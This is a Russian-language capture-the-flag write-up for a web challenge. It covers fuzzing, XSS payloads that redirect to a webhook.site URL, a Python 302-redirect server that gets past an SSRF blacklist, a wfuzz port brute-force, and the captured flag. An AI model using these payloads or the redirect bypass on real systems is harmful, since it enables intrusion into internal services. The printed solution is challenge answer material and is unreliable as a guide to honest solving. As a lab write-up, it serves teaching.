

### Квантовый прорыв

Категория: web\
Уровень: Средний

---
### Описание
Описание: Мы наткнулись на подозрительный ресурс компании Quantum Sytems, которая занимается производством квантовых компьютеров. Нам поручили проверить безопасность этого ресурса. Будущее квантовых компьютеров в твоих руках.

### Решение

### Разведка

Предварительно запустим фаззинг ендпоинтов, в это раз будем использовать```feroxbuster```. Также можно фаззить скрытые файлы, файлы по расширениям, заголовки и параметры, методы и так далее, но пока это избыточно.


Видим интересующий нас ендпоинт ```/secret``` с ответом ```HTTP 403 Forbidden```, берем его на заметку.

Открываем Burp Suite и изучаем сервис:


Обращаем внимание на хедеры которые пришли от приклада. Видим хедер ```Server: Werkzeug/3.0.4 Python/3.10.7```, нам это сразу говорит о том, что:
- приклад написан на Python фреймворке
- отсутвует реверс прокси который мог бы фильтровать запросы через ```mod_security```

В целом у нас простой landing page, который имеет только один интересный ендпонит ```/contacts``` где пристуствует пользовательский ввод для инъекций:


### Моделирование и тестирование угроз

#### XSS (Cross-Site Scripting)

- XSS (Cross-Site Scripting) — это уязвимость веб-приложений, позволяющая злоумышленнику внедрить на веб-страницу вредоносный скрипт (обычно JavaScript). Когда посетитель заходит на такую страницу, его браузер исполняет внедренный скрипт, что может привести к краже персональных данных (cookies, токенов сессии) или выполнению произвольных действий от имени пользователя.

Обычно когда мы имеем возможность отправить какой-то ввод (личные сообщения, комментарии, форма обратной связи, просто значение отображающееся на странице) может присутствовать XSS. Любое наше взаимодействие с посетлителем сервиса предплогает клиент серверные атаки.

1) Проверять будем отправкой нескольких пейлодов, перехватывать возможное перенаправление на веб сервисе ```https://webhook.site/``` , в форме ```/contacs``` для обратной связи используется три параметра ```name=``` , ```url=``` , ```message=```


Отправляю пейлод с перенаправление ```window.location=``` на ```https://webhook.site/``` причем в каждой нагрезке добавляю параметр ```field=``` где значение поле ввода из формы:

```
name=''><script>window.location='https://webhook.site/f7de6550-b037-40f2-9588-01a3dab6a73e?field=name';</script>

url=https://webhook.site/f7de6550-b037-40f2-9588-01a3dab6a73e?field=your_site

message=''><script>window.location='https://webhook.site/f7de6550-b037-40f2-9588-01a3dab6a73e?field=message
```

2) В теле ответа видим ```json``` который имеет ключа ```response``` и значение в ```base64```. Можно в burp suite или шелле декодировать его:


```
This URL has no default content configured. <a href="https://webhook.site/#!/view/f7de6550-b037-40f2-9588-01a3dab6a73e">View in Webhook.site</a>.
```

Это ответ от вебхука https://webhook.site. 

3)  Проверяем сам вебхук, что к нему пришло и какое поле перенаправило:



Нас перенаправило поле "Ваш сайт" / ```url=```. Но, в поле с адресом сайта нельзя было указать JS скрипт код, так как приклад возвращал ответ с ошибкой (поэтому использовался просто URL):


Пример ошибки. Конечно пробовались разные XSS пейлоды, но XSS здесь нет.

#### SSRF (Server-Side Request Forgery)

- SSRF (Server-Side Request Forgery) — это уязвимость, при которой злоумышленник заставляет сервер выполнять сетевые запросы к ресурсам (URL, IP-адресам) по своему выбору. Поскольку запрос инициируется непосредственно с сервера, злоумышленник может обойти ограничения внешнего доступа и взаимодействовать с внутренними сетями или сервисами, недоступными напрямую из интернета. Это может привести к сканированию внутренней сети, получению конфиденциальных данных или доступу к служебным API.

Если отталкиваться от логики задания, то нам нужен ендпоинт ```/secret``` который сейчас возвращает ```HTTP 403 Forbidden```, возможно если запрос будет идти с самого веб сервера, то будет получен секрет.

1) Пробуем в параметре ```url=``` указать значения на ```loopback``` интерфейс в разлиных нотациях ```127.0.0.1```, ```localhost```, ```http://[::]:80/```, etc


В результате получаем ошибку ```"Обнаружена попытка SSRF-атаки"```, приклад скорее всего фильтрует пользовательский ввод по блеклисту (так как на webhook.site перенаправление работало успешно).

#### SSRF Bypass Filtering

Будем пробовать байпасить фильтрацию со стороны приклада. Один из вариантов, попробовать перенаправить веб сервис через ```HTTP 302 Redirect``` и в поле ```Location=``` указать ```loopback``` интерфейс.

1) Для этого используем ``terraform`` и поднием ```VPS``` в облаке.


Ставим ```python``` и пишем простой ```http replay``` сервер:

```python
#!/bin/env python3

import socket

HOST = '0.0.0.0'
PORT = 5000

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen()
    print(f'Server is listening on {HOST}:{PORT}')


    try:
        while True:
            conn, addr = s.accept()

            with conn:
                print(f'Connected by {addr}')
                data = conn.recv(1024)
                if not data:
                    break

                response_body = ""

                response_header = (
                    "HTTP/1.1 302 FOUND\r\n"
                    "Content-type: text/plain\r\n"
                    "Location: http://127.0.0.1:8000\r\n"
                    f"Content-Lenght: {len(response_body)}\r\n"
                    "Connection: close\r\n"
                    "\r\n"
                )

                conn.sendall(response_header.encode('utf-8') + response_body.encode('utf-8'))
    except KeyboardInterrupt:
        print("\nServer is shutting down...")
        s.close()
        exit(1)
```

Запускаем сервер и указываем его адрес в форме обратной связи в параметре ```url=http://84.201.157.244:5000```, для тестирования байпасса **SSRF** попробуем указать ```Location:``` на ```http://ya.ru```


Видим что перенаправление на другие ресурсы работает. В теле ответа есть ```json``` в ```base64```, который при декрипте отобразит страницу ```ya.ru```.

2) Попробуем поменять ```Location:``` на ```loopback``` интерфейс в разных нотациях:


Видим, что перенапрвление работает, но получаем ошибку, так как нам не известно на каком порту забиндин веб сервис. Сделаем хитрость, будет фаззить порты. Для этого подравим ```replay``` сервер, который будет парсить ```HTTP``` параметр ```?port= ```и подставлять его в значение в ```Location: localhost:{ port }```

```python
#!/bin/env python

import socket
from urllib.parse import urlparse, parse_qs

HOST = '0.0.0.0'
PORT = 5000

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen()
    print(f'Server is listening on {HOST}:{PORT}')

    try:
        while True:
            conn, addr = s.accept()
            with conn:
                data = conn.recv(1024)
                if not data:
                    break
                
                request_text = data.decode('utf-8', errors='replace')
                # Разбиваем запрос на строки и извлекаем первую (например: "GET /?port=8080 HTTP/1.1")
                request_lines = request_text.splitlines()
                if request_lines:
                    request_line = request_lines[0]
                    parts = request_line.split()
                    if len(parts) >= 2:
                        method = parts[0]
                        path = parts[1]
                    else:
                        method = ''
                        path = ''
                else:
                    method = ''
                    path = ''

                port_value = ''
                response_body = ''

                if method.upper() == 'GET':
                    parsed_url = urlparse(path)
                    params = parse_qs(parsed_url.query)
                    port_value = params.get('port', [''])[0]

                response_header = (
                    "HTTP/1.1 302 FOUND\r\n"
                    "Content-Type: text/plain\r\n"
                    f"Location: http://localhost:{port_value}\r\n"
                    f"Content-Length: {len(response_body)}\r\n"
                    "Connection: close\r\n"
                    "\r\n"
                )
                
                print(f'Connectd by {addr} used port: {port_value}')

                conn.sendall(response_header.encode('utf-8') + response_body.encode('utf-8'))
    except KeyboardInterrupt:
        print("\nServer is shutting down...")
        s.close()
        exit(1)

```


Запускаем сервер и начинаем фаззить порт на котором забинден процесс. То есть, в форме обратной связи мы указываем пейлод, который состоит из ```http://{ replay_server }/?port=FUZZ```, где ```FUZZ``` будет перебор портов (можно указать range, либо использовать словать с самими популярными портами):

```
wfuzz -c -v -u http://62.173.140.174:16059/contacts -d "name=test&url=http://84.201.157.244:5000/?port=FUZZ&message=test" -z range,7800-8200 --hh 468
```


В результате фаззинга видим, что успешная SSRF атака сработала, веб сервис работает на 8000 порту. Теперь можно подправить replay сервре, чтобы добавить возможность указать ендпоинт для перенаправления: ```http://{ replay_server }/?port=FUZZ&url=secret```, либо выполнять ```?port=8000/FUZZ```так тоже сработает.


В итоге получаем флаг: ```CODEBY{SM4LL_0M1SS10N_1N_7H3_C0D3}```

#### Ссылки:
> Server-side request forgery (SSRF)\
https://portswigger.net/web-security/ssrf
